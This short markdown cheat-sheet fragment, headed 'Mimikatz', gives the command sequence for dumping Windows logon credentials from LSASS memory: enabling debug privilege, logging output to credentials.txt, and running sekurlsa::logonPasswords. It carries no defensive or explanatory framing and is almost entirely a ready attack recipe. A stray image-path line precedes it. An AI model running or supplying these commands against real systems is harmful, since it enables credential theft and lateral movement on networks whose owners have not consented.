 # Mimikatz

## Recovering LSASS
```
Open an Administrative prompt
mimikatz # privilege::debug and make sure we get '20' ok
mimikatz # log credentials.txt
mimikatz # sekurlsa::logonPasswords
```
